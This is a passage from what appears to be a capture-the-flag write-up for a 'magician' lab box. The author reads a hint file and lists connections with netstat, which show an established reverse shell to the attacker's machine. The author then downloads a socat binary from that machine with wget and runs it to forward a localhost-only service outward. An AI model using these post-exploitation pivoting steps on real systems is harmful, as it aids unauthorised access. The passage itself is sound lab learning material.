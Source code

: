 ## Hint

Still connected as `magician`, there is a hint in the `/home/magician/` directory:

~~~
magician@magician:~$ cat the_magic_continues
cat the_magic_continues
The magician is known to keep a locally listening cat up his sleeve, it is said to be an oracle who will tell you secrets if you are good enough to understand its meows.
~~~

Following the hint, I checked the network connections with `netstat`, which revealed a weird connection on port `6666`. This is however only available for `localhost`.

~~~
magician@magician:/tmp/hsperfdata_magician/uploads$ netstat -putan
netstat -putan
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:6666          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:8081            0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0    300 10.10.100.95:60902      10.8.50.72:4444         ESTABLISHED 27129/bash          
tcp6       0      0 :::8080                 :::*                    LISTEN      957/java            
tcp6       0      0 :::21                   :::*                    LISTEN      -                   
tcp6       0      0 10.10.100.95:8080       10.8.50.72:35182        ESTABLISHED 957/java            
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 10.10.100.95:68         0.0.0.0:*                           -                   
~~~

## The program on port 6666

Let's use `socat` to forward the local port and make the program available to the outside.

Transfer the `socat` binary from your Kali box to the server and use it to forward local port `6666` to port `7777`:

~~~
magician@magician:~$ wget http://10.8.50.72:8000/socat
magician@magician:~$ chmod +x socat
magician@magician:~$ ./socat tcp-listen:7777,reuseaddr,fork tcp:localhost:6666
~~~
